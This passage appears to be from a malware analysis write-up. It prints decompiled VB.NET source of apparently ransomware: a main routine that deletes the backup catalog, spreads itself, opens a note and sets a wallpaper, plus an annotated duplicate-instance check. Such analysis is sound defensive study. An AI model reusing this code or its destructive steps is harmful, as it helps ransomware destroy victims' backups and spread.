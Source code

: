 ```
			Program.deleteBackupCatalog()
		End If
	End If
	If Program.checkSpread Then
		Program.spreadIt(Program.spreadName)
	End If
	Program.addAndOpenNote()
	Program.SetWallpaper(Program.base64Image)
	New Thread(Sub()
		Program.Run()
	End Sub).Start()
End Sub
```

We will try to detail each of the points.

### AlreadyRunning

```
Private Shared Function AlreadyRunning() As Boolean
	Dim processes As Process() = Process.GetProcesses()
	Dim currentProcess As Process = Process.GetCurrentProcess()
	For Each process As Process In processes
		Try
			If process.Modules(0).FileName = Assembly.GetExecutingAssembly().Location AndAlso currentProcess.Id <> process.Id Then
				Return True
			End If
		Catch ex As Exception
		End Try
	Next
	Return False
End Function
```

This code defines a function named `AlreadyRunning`, which is designed to determine if an instance of the current application is already running on the system. Here's a detailed explanation of what this code does:

1.  **Function Declaration**: `Private Shared Function AlreadyRunning() As Boolean` declares a private and shared (static in C# terms) function that returns a Boolean value (`True` or `False`).
    
2.  **Getting All Running Processes**: `Dim processes As Process() = Process.GetProcesses()` retrieves an array of all processes currently running on the computer.
    
3.  **Getting the Current Process**: `Dim currentProcess As Process = Process.GetCurrentProcess()` gets a reference to the current process (i.e., the application executing this code).
    
4.  **Looping Through Each Process**: The loop `For Each process As Process In processes` iterates through each process in the list of processes obtained earlier.
    
5.  **Comparing Processes**: Inside the loop, the code attempts to compare the main module (executable) of the process being iterated with that of the current process:
    
    -   `process.Modules(0).FileName` refers to the file path of the executable of the process being iterated.
    -   `Assembly.GetExecutingAssembly().Location` refers to the file path of the executable of the current process.
6.  **Checking Process Identity and Uniqueness**: The code checks if the process being iterated is the same as the current process (by comparing their executable paths) and also ensures it is not the same process by comparing their IDs (`Id`).
    